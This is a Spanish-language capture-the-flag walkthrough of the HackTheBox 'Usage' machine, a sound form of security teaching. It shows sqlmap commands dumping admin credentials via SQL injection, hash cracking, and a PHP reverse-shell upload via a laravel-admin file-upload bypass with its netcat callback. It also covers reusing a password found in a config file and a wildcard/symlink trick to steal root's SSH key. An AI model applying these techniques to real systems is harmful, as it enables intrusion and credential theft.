


-------------



Usage es una maquina dificultad easy de HTB que paso estar donde encontré se encuentra un campo vulnerable a SQLI donde podemos encontrar el hash del admin y usarla para conectarnos al panel de administración que explotaremos con `CVE-2023-24249(bypass file upload)`, realizamos un movimiento lateral con credenciales expuestas en un archivo de configuración, escalamos a root abusando del privilegio a nivel de Sudoers

------------------------------------

# Reconocimiento
Primero realice un reconocimiento con Nmap para descubrir los puertos que se encuentran abiertos
```bash
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.18 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-07 09:16 -03
Initiating SYN Stealth Scan at 09:16
Scanning 10.10.11.18 [65535 ports]
Discovered open port 22/tcp on 10.10.11.18
Discovered open port 80/tcp on 10.10.11.18
Completed SYN Stealth Scan at 09:16, 22.06s elapsed (65535 total ports)
Nmap scan report for 10.10.11.18
Host is up, received user-set (0.19s latency).
Scanned at 2024-08-07 09:16:17 -03 for 22s
Not shown: 60994 closed tcp ports (reset), 4539 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```
Veo que están el puerto 22, y 80 por lo que decido realizar un escaneo mas exhaustivo
```bash
❯ nmap -p22,80 -sCV 10.10.11.18 -oN targeted
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-07 09:23 -03
Nmap scan report for 10.10.11.18
Host is up (0.50s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 a0:f8:fd:d3:04:b8:07:a0:63:dd:37:df:d7:ee:ca:78 (ECDSA)
|_  256 bd:22:f5:28:77:27:fb:65:ba:f6:fd:2f:10:c7:82:8f (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://usage.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Veo que tenemos por el puerto 22 esta SSH que no es una versión vulnerable y el puerto 80 tenemos una pagina web como veo que se esta aplicando virtual hosting procedo a incluirlo en el `/etc/hosts`


Con whatweb veré las tecnologías que corren por detrás de esta pagina web, luego veré de que trata esta pagina web
```bash
❯ whatweb http://usage.htb
http://usage.htb [200 OK] Bootstrap[4.1.3], Cookies[XSRF-TOKEN,laravel_session], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], HttpOnly[laravel_session], IP[10.10.11.18], Laravel, PasswordField[password], Title[Daily Blogs], UncommonHeaders[x-content-type-options], X-Frame-Options[SAMEORIGIN], X-XSS-Protection[1; mode=block], nginx[1.18.0]
```
Por lo que llego a ver mas que lo de laravel no me reporta nada mas interesante, por lo que voy a ver la pagina web, y por lo que vemos una pagina de login


Empecé intentando credenciales por defecto pero no funciona, por lo que pruebo un inyección SQL pero tampoco veo algo que indique que se pueda inyectar, a esto también lo intente en la pagina de `register` 


Hay panel de admin que esta bajo el subdominio`admin.usage.htb` que este lo debemos incluir


Y al intentar registrarme e intentar iniciar sesión veo que no me deja como si no se hubiese registrado por lo que procedí a realizar un ataque XSS al pensar que por detrás se podía llegar a estar  "Alguien" activando cuentas por lo que podría pensar en robar una cookie, pero veo que no pasa nada por lo que intente descubrir mas directorios con `gobuster`
```bash
❯ gobuster dir -u http://usage.htb/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 --status-codes-blacklist 503,404
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://usage.htb/
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   503,404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/login                (Status: 200) [Size: 5141]
/registration         (Status: 200) [Size: 5112]
/logout               (Status: 302) [Size: 334] [--> http://usage.htb/login]
/dashboard            (Status: 302) [Size: 334] [--> http://usage.htb/login]
```
No, nos reporta mas de lo que ya vi, por lo empecé a husmear un poco mas en esta pagina, en la parte de `reset password` encuentro algo interesante probando una inyección SQL


Veo que nos da un código de estado 500(server internal error) al colocar una comilla, por lo tanto podemos tener una `SQLI`.
Por lo que voy a interceptar la petición con burpsuite, copio el request y lo pongo en un archivo para poder usarlo con SQLMap


-------------------
### Explotacion
Entonces con sqlmap utilice los siguientes parametros para obtener los nombre de la base de datos
```bash
sqlmap -r req.txt -p email --batch --level 5 --risk 3 --dbms=mysql --dbs
```


Ahora voy intentar ver las tablas que contiene usage_blog
```bash
sqlmap -r req.txt -p email --batch --level 5 --risk 3 --dbms=mysql -D usage_blog --tables --threads 10
```


Veo una columna interesante que es admin_users voy a intentar ver dumpear el usuario y la password
```bash
sqlmap -r req.txt -p email --batch --level 5 --risk 3 --dbms=mysql -D usage_blog -T admin_users -C username,password --dump --threads 10
```


Veo el hash del usuario admin por lo tanto ahora con `john`voy a intentar crackear el password
```bash
❯ john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
No password hashes left to crack (see FAQ)

❯ john hash.txt --show
?:whatever1

1 password hash cracked, 0 left
```
Ahora que ya tengo las credenciales del usuario admin procedo a loguearme en el panel de admin 



Veo este panel, donde puedo ver la versión de [lavarel](https://talently.tech/blog/que-es-laravel/), y algo que me llama la atencion es lo de `encore/laravel-admin`


Buscando si es que existe una vulnerabilidad para esta version de `laravel-admin` veo que tenemos el `CVE-2023-24249(bypass file upload)` por lo que procedo a explotarlo, descargando [revershell de pentetmonkey](https://github.com/pentestmonkey/php-reverse-shell)  lo edito y de nombre le tenemos que añadir el la extensión jpg


Subo el archivo en los settings del admin
 
 
 
 

Paso la petición por Burpsuite  y en el nombre del archivo le agregamos `.php`, una vez echo esto le damos a forward
    


Veremos que ahora sale un icono en la imagen, entonces nos ponemos en escucha por el puerto 443 y ahora clickeamos este icono 


Nos ponemos en escucha por el puerto 443 y como vemos al interpretar el código PHP y nos da la shell 
```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.31] from (UNKNOWN) [10.10.11.18] 43290
Linux usage 5.15.0-101-generic #111-Ubuntu SMP Tue Mar 5 20:16:58 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 18:22:51 up  3:44,  0 users,  load average: 3.27, 2.92, 2.16
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1000(dash) gid=1000(dash) groups=1000(dash)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
dash
$ 
```
Hacemos un tratamiento de la TTY
```bash
$ script /dev/null -c bash
Script started, output log file is '/dev/null'.
dash@usage:/$ ^Z
zsh: suspended  nc -nlvp 443
                                                                                                                                
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
                              reset xterm
```
Vamos al directorio personal y podemos ver la flag del usuario
```bash
dash@usage:~$ cat user.txt 
*******************dabb05
```

### Escalada de Privilegio
Veo otro usuario, por lo tanto intente encontrar como hacer un movimiento lateral al usuario xander, porque como vemos con el usuario actual no tenemos nada para poder escalar a root
```bash
dash@usage:~$ cat /etc/passwd | grep "bash"
root:x:0:0:root:/root:/bin/bash
dash:x:1000:1000:dash:/home/dash:/bin/bash
xander:x:1001:1001::/home/xander:/bin/bash
```
vi que corria un  proceso llamado monit
```bash
dash@usage:~$ ps -faux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
dash        5035  0.0  0.0   2892   952 ?        S    18:22   0:00 sh -c uname -a; w; id; /bin/sh -i
dash        5039  0.0  0.0   2892   956 ?        S    18:22   0:00  \_ /bin/sh -i
dash        5156  0.0  0.0   2808  1072 ?        S    18:30   0:00      \_ script /dev/null -c bash
dash        5157  0.0  0.0   2892  1064 pts/0    Ss   18:30   0:00          \_ sh -c bash
dash        5158  0.0  0.1   5684  5032 pts/0    S    18:30   0:00              \_ bash
dash        6118  0.0  0.0   7476  3332 pts/0    R+   19:08   0:00                  \_ ps -faux
dash        1272  0.2  0.1  66796  7304 ?        S    14:38   0:46 nginx: worker process
dash        1271  0.0  0.1  66788  7304 ?        S    14:38   0:03 nginx: worker process
dash        6109  0.0  0.0  84684  3444 ?        Sl   19:07   0:00 /usr/bin/monit
```
y en el directorio personal había un archivo .monitrc por lo que procedí a mirar el contenido de este archivo para ver si tenia algún tipo de relacion con el proceso monit  
```bash
dash@usage:~$ ls -la
total 52
drwxr-x--- 6 dash dash 4096 Aug  7 18:57 .
drwxr-xr-x 4 root root 4096 Aug 16  2023 ..
lrwxrwxrwx 1 root root    9 Apr  2 20:22 .bash_history -> /dev/null
-rw-r--r-- 1 dash dash 3771 Jan  6  2022 .bashrc
drwx------ 3 dash dash 4096 Aug  7  2023 .cache
drwxrwxr-x 4 dash dash 4096 Aug 20  2023 .config
drwxrwxr-x 3 dash dash 4096 Aug  7  2023 .local
-rw-r--r-- 1 dash dash   32 Oct 26  2023 .monit.id
-rw-r--r-- 1 dash dash    5 Aug  7 18:57 .monit.pid
-rw------- 1 dash dash 1192 Aug  7 18:57 .monit.state
-rwx------ 1 dash dash  707 Oct 26  2023 .monitrc
-rw-r--r-- 1 dash dash  807 Jan  6  2022 .profile
drwx------ 2 dash dash 4096 Aug 24  2023 .ssh
-rw-r----- 1 root dash   33 Aug  7 14:39 user.txt
```
En este archivo contenía una contraseña por lo que lo probé en el usuario xander
```bash
dash@usage:~$ cat .monitrc  
#Monitoring Interval in Seconds
set daemon  60

#Enable Web Access
set httpd port 2812
     use address 127.0.0.1
     allow admin:3nc0d3d_pa$$w0rd

#Apache
check process apache with pidfile "/var/run/apache2/apache2.pid"
    if cpu > 80% for 2 cycles then alert


#System Monitoring 
check system usage
    if memory usage > 80% for 2 cycles then alert
    if cpu usage (user) > 70% for 2 cycles then alert
        if cpu usage (system) > 30% then alert
    if cpu usage (wait) > 20% then alert
    if loadavg (1min) > 6 for 2 cycles then alert 
    if loadavg (5min) > 4 for 2 cycles then alert
    if swap usage > 5% then alert

check filesystem rootfs with path /
       if space usage > 80% then alert

```
Vemos que efectivamente era su contraseña
```bash
dash@usage:~$ su xander
Password: 
xander@usage:/home/dash$ 
```
Al hacer sudo -l veo que podemos ejecutar como sudo usage_management
```bash
xander@usage:~$ sudo -l
Matching Defaults entries for xander on usage:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User xander may run the following commands on usage:
    (ALL : ALL) NOPASSWD: /usr/bin/usage_management
```
Vemos que con esto podemos realizar un backup de la pagina web
```bash
xander@usage:~$ sudo /usr/bin/usage_management 
Choose an option:
1. Project Backup
2. Backup MySQL data
3. Reset admin password
Enter your choice (1/2/3): 1
```
Por lo que me pongo a investigar como poder usar esto a mi favor para escalar a root por lo que encontré una técnica en [HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks?source=post_page-----16397895490f--------------------------------) entonces me dirigí a directorio `/var/www/html` y ejecute lo siguiente
```bash
xander@usage:/var/www/html$ touch @id_rsa
xander@usage:/var/www/html$ ln -s /root/.ssh/id_rsa id_rsa
```
y ejecutando la herramienta haciendo un backup obtengo la clave privada del usuario root
```bash
xander@usage:/var/www/html$ sudo /usr/bin/usage_management 
Choose an option:
1. Project Backup
2. Backup MySQL data
3. Reset admin password
Enter your choice (1/2/3): 1
```


En mi maquina de atacante creo el id_rsa y le doy permisos de ejecucion, y procedo a conectarme por ssh


y con esto ya podemos visualizar la flag del usuario root
```bash
root@usage:~# cat root.txt 
********************24a449
```
